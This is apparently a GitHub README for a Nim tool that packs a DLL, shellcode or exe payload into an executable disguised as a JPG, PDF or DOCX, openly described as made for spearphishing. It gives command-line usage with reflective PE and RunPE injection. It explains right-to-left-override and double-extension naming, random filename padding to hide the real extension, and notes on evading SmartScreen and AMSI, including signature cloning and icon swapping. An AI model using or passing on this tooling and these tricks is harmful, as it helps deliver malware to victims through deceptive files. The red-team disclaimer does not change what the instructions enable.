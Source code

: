 # Executable Masquerading
Generate an executable that acts like a normal file (JPG, PDF, DOCX etc) with the file data embedded directly inside PE. Made for spearphishing and personally I think this is effective (kinda). Built with Nim cause why not, I terribly hate C++ anyway.

> Disclaimer: <br>
> This tool is not intended for any illegal phishing attack, I made it specifically for my own usage in red-team demonstration and for other fellow red-teamer.
> Of course, in that way, all actions anyone done with this tool have nothing to do with me. And I highly discourage the very usage of this tool (cause, well, even if u're a legal pentester ur client will most likely despise spearphishing attacks).

![](https://github.com/idfp/masquerade/blob/main/assets/demo.gif)
## TODO:
- Linux environment supports (not linux based payloads.)
- Self Cleaning function (delete executable after execution and replace it with normal files.)
- Document known limitations.
- Write better use cases.
## Usage
```bash
masquerade.exe [OPTIONS] <targetfile>
Options:

    Basic:
    --payload=<path> Payload to embed in the end result, must be either DLL or a shellcode file.
    -p shorthand for --payload

    --output=<path> output file name, do not include the scr extension.
    -o shorthand for --output

    --type define how the scr file should execute the payload, can be Either:
        basic, ReflectivePE, or RunPE (default basic)
    -t shorthand for --type

    Advanced (might be useful for AMSI bypass):
    --naming=<rtl | normal> define how the file should be named, either using Right to left or normal (double extension, actually).
        rtl or normal (default normal)
    -n shorthand for --naming

    --disable-rename do not rename the file and keep it in template/ directory.
    -d shorthand for --disable-rename

    --use-exe rename the output file with .exe extension instead of .scr
    -e shorthand for --use-exe

    --add-random=<length> add random string by certain length to filename (with purpose of preventing users from realizing the double ext)
    -r shorthand for --add-random

```
Example: <br>

Generate an executable that loads pict.jpg when being run, and execute payload `test.exe` through reflective PE injection.
```sh
masquerade.exe --payload=test.exe --type=ReflectivePE pict.jpg
```
Generate the same thing, but write output file into `totally-not-suspicious.jpg.scr`
```sh
masquerade.exe --payload=test.exe --type=ReflectivePE --output=totally-not-suspicious.jpg pict.jpg
```

## Installation / Building
Make sure you have nim compiler loaded into your windows PATH plus its dependencies (mingw for compiling c / c++).
Build `masquerade.nim` with this command:
```bash
nim c -d:release --threads:on masquerade.nim
```
the resulted `masquerade.exe` can be used as I exampled above.
### Payload Compiling
Any exe payload is fine actually (with some pitfalls, I'll explain it in later part). But if you want to compile the payload with Nim, make sure you build it this way:
```cmd
nim c -d:release -d:danger -d:strip --opt:size --threads:on --app:gui payload.nim
```
This will create a very compressed exe payload (around 60KB for basic Msgbox payload, without this it will sized 330KB).

## Pitfalls and Strategies
First thing I want to note, for both myself and the users is that this attack can be easily detected either by victim themselves or by the AMSI. In some cases the whole payload won't even get executed due to smartscreen blockage, forcing you to sign the executable (which is kinda hard, though possible, by signature cloning).

The Right-to-Left Override will most likely trigger smartscreen, so only use this to fool victim that have disabled their smartscreen. This is very disappointing since RTLO is so powerful to deceive even the eyes of experts. 

That doesn't mean RTLO is obsolete tho, with certain payload or algoritm, it's perfectly usable. In my first phase of development RTLO run perfectly, it only started to fail after certain implementation of file embedding.

On the other hand, double extension works finely for most cases. Just use `.exe` + `.jpg ` if u're not sure which one to choose, since `.scr` + `.jpg` failed in some scenario.

This tool perfectly suited for organization spearphishing that targets multiple person with different digital ecosystem. Since some of them might haven't turn on "show file extension" option while the other side might have disabled smartscreen and Av completely. 

### Changing Output Icon
use `rcedit.exe` in `bin` folder to edit ur executable icon. here's the syntax
```bash
rcedit.exe "(your exe file)" --set-icon (your ico file)
```